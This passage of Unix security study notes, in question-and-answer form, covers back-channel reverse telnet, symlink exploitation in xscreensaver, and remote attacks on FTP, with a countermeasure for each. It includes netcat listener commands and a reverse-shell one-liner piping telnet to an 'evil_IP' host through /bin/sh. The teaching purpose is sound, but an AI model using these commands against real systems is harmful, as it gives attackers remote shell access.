 ```sh
nc -lnvp 80
nc -lnvp 25
```

If a service is already listening, it must be killed via the `kill command` so nc can bind to each respective port.

To initiate a reverse telnet, we must execute the following commands on the target server:

```sh
/bin/telnet evil_IP 80 | /bin/sh | /bin/telnet evil_IP 25
```

Telnet on port 80 connects to our nc listener on port 80. Standard output or keystrokes are piped into `/bin/sh`. Then the results of our command into another telnet on port 25.

&#9940; ` Countermeasures`: The best prevention is to keep your systems secure so a back-channel attack cannot be executed (disabling unnecessary services and applying vendor patches).

### Q: Symlink. What are symlinks and how do they work? How can an attacker exploit symlinks (provide an example)? Provide at least one countermeasure.

A: Many SUID root programs are coded to create working files in `/tmp` or other directories without the slightest bit of sanity checking. A symbolic link is a mechanism where a file is created via the `ln` command. A symbolic link is nothing more than **a file that points to a different file**.
Let’s reinforce the point with a specific example. 

In 2009, it was discovered a symlink vulnerability in *xscreensaver 5.01* that can be used to view the contents of other files not owned by a user. Xscreensaver reads user configuration options from the `~/.xscreensaver` file. If the `.xscreensaver` file is a symlink to another file, then that other file is parsed and output to the screen when the user runs the xscreensaver program. Because OpenSolaris installs xscreensaver with the **setuid bit set**, the vulnerability allows us to read any file on the file system.

&#9940; ` Countermeasures`: Secure coding practices are the best countermeasure available. Unfortunately, many programs are coded without performing sanity checks on existing files. Programmers should check to see if a file exists before trying to create one, by using the `O_EXCL | O_CREAT` flags. When creating temporary files, set the UMASK and then use the *tmpfile()* or *mktemp()* function.

### Q: Briefly describe at least two main services in Unix system that are often remotely attacked. For each of this services, explain how the remote attack occurs and discuss the possible countermeasure.

A: **Main services** (common types of remote attacks):

- &#128163; `FTP`: FTP is often abused to gain access to remote systems or to store illegal files. Many FTP servers allow anonymous access, enabling any user to log into the FTP server without authentication. Thus, attackers can begin to pull down sensitive configuration files such as `/etc/passwd`.
  FTP servers had their fair share of security problems related to buffer overflow conditions and other insecurities. One of the most recent FTP vulnerabilities has been discovered in **FreeBSD daemons**. The exploit creates a shell on a local port specified by the attacker.
